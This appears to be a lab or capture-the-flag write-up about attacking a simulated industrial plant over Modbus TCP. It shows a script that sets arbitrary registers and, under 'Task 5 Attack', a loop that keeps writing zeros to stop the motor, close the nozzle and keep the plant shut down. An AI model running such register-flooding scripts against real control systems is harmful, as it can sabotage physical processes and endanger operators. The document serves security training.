 ## Task 4 Play to learn

#### Which is the registry associated with the nozzle?

```python
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
registry = int(sys.argv[2])
value = int(sys.argv[3])
client = ModbusClient(ip, port=502)
client.connect()
client.write_register(registry, value)
```

![python3 set\_registry.py 10.10.199.95 4 1](<../../.gitbook/assets/Screenshot from 2022-02-20 09-56-51.png>)

{% hint style="success" %}
`4`
{% endhint %}

## Task 5 Attack

#### Shutdown the plant and avoid the plant manager starts it again.&#x20;

```python
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()
while True:
  client.write_register(3, 0)  # Stop the motor
  client.write_register(4, 0)  # Close the nozzle
  client.write_register(16, 0) # Shutdown the plant
```
